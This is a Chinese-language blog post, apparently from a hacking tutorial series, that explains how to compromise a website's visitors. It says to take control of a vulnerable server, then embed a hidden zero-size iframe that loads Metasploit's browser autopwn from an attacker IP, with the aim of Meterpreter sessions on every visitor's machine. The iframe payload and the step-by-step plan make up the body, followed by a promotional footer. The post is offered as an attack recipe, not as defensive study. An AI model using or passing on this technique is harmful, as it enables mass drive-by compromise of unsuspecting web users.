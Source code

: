 ```yaml
---
layout: post
category: binghe-code-hack
title: 对网站的客户进行渗透
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 对网站的客户进行渗透
lock: need
---
```


# 对网站的客户进行渗透

本次的渗透主要是找到有漏洞的网站，在有漏洞的网站中嵌入隐藏的iFrame，那么访问这个网站的所有系统都会遭受来自browser autopwn服务器的攻击。我们可以利用iFrame注入实现对网站用户的大规模入侵。

**攻击网站的用户**

![img](https://img-blog.csdnimg.cn/20190124193808368.png)

**具体实施**

**首先，我们要获取一个存在漏洞的服务器的控制权限，这一点非常重要**

接着，我们在网站的某个页面中，嵌入类似如下的代码：

```bash
<iframe src="http://192.168.175.128" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe>
```

每当有受害者访问网站时，上面的代码就会自动加载iFrame中的恶意browser autopwn。由于这段代码包含了一个iframe标签，它将会从攻击者系统中自动加载browser autopwn。我们需要保存这个文件，并允许用户对网站的访问。

受害者一旦访问了这个网页，browser autopwn将会自动在受害者的计算机上运行。我们必须确保browser autopwn模块正常运行

如果一切顺利，我们将会获得在目标系统中运行的Meterpreter。这种渗透思路是使用目标网站引诱最大数量的受害者，并进入到他们的系统中。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)